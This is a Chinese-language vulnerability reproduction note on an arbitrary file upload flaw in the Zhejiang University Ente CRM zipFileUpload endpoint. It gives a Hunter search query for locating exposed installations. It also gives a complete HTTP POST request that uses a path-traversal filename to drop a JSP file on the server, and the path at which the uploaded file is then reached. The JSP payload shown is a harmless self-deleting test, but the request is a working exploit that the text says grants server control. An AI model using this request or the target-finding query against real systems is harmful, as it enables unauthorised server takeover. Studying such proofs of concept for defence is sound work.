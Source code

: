 # 浙大恩特CRM zipFileUpload任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM zipFileUpload任意文件上传漏洞，攻击者可通过该漏洞获取服务器控制权限。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="浙大恩特 CRM"`
+ 特征

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/okHuxnU_FN0k5qU4/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-432544.png)

# 四、漏洞复现
```java
POST /entsoft/CrmBasicAction.entcrm?method=zipFileUpload&c_transModel=old HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 260
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="file"; filename="../../stc.jsp"
Content-Type: application/zip

<% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
--00content0boundary00--
```

![1704943891516-566c0363-ef56-4bad-b296-055023951a79.png](./img/okHuxnU_FN0k5qU4/1704943891516-566c0363-ef56-4bad-b296-055023951a79-284623.png)

根据回显拼接上传文件位置

```java
/enterdoc/dao/2024011111284104541134657/stc.jsp
```

![1704943976538-ac2f6799-9ce4-41dd-b52a-2c7a0d7fc29a.png](./img/okHuxnU_FN0k5qU4/1704943976538-ac2f6799-9ce4-41dd-b52a-2c7a0d7fc29a-011387.png)

[zhedaente-entsoft-fileupload-CrmBasicAction.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222145291-128bd578-1b6b-45b2-9d79-58ca0ab390b2.yaml)





> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/vw1xptpqmd5guxwf>